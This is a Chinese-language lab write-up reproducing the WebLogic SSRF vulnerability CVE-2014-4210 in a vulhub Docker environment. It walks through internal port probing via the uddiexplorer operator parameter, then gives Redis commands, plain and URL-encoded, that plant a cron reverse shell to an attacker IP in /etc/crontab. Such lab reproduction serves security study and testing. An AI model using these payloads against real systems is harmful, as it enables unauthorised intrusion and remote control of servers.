

# 漏洞复现——weblogic ssrf漏洞复现CVE-2014-4210

# 漏洞概述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，获取内网资产信息，进而攻击内网中的Redis、fastcgi等脆弱组件

# 影响范围

weblogic 10.0.2weblogic 10.3.6

# 漏洞复现

1. SSRF发现与内网探测

   - 使用vulhub的环境，进入~/vulhub/weblogic/ssrf目录，docker启动环境

     ``` shell
     sudo docker-compose up -d
     ```

   - 启动后访问http://靶机IP:7001/uddiexplorer/无需登录即可查看uddiexplorer应用。

     

   - 点击页面左侧的Search Public Registries，F12查看源码，发现Public Registry处的operator参数直接传入了外部URL

     

   - 使用BurpSuite进行抓包，查看查询请求中的operator参数

     

   - 修改operator参数为IP:PORT形式，当端口可以访问时，会返回一个404 eror

     

   - 修改PORT为未开放的不存在端口，会返回”could not connect over HTTP to server“

     

   - 如果访问的端口对应的服务是非HTTP协议的，则会返回 did not have a valid SOAP content-type

     - docker的容器IP都是以172.*开头的，首先探测下172.18.0.1:6379，返回404 eror说明该服务存在，但172.18.0.1是docker子网的网络号之一，可以理解为一个网关，不是独立容器，探测172.18.0.2:6379，返回could not connect over HTTP to server，说明容器不存在，172.18.0.1/24网段下没有docker容器。

     - 探测172.19.0.1:6379，返回404 eror，存在网络号，探测172.19.0.2:6379，返回 did not have a valid SOAP content-type，说明存在docker容器，且服务非HTTP协议。

       

     

2. 反弹shell

   - 发送三条redis命令，将反弹shell的脚本写入目录/etc/crontab，该目录下是一个默认自动执行的一些crontab定时服务命令，注意将IP换成实际的攻击机器的IP

     ``` shell
     set 1 "\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.176.132/21 0>&1\n\n\n\n" 
     config set dir /etc/ 
     config set dbfilename crontab 
     save
     ```

   - 将上述命令进行URL编码

     ``` shell
     set%201%20%22%5Cn%5Cn%5Cn%5Cn*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.176.132%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0Aconfig%20set%20dir%20%2Fetc%2F%0Aconfig%20set%20dbfilename%20crontab%0Asave*
     ```

     

   - 3、先在攻击机中开启nc端口监听4、将URL编码后的Payload增加换行符，Redis通过换行符来分隔每条命令，换行符是”\r\n“，URL编码就是”%0D%0A“，然后添加到数据包中发送给服务器

     ``` shell
     set%201%20%22%5Cn%5Cn%5Cn%5Cn*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.176.132%2F21%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
     ```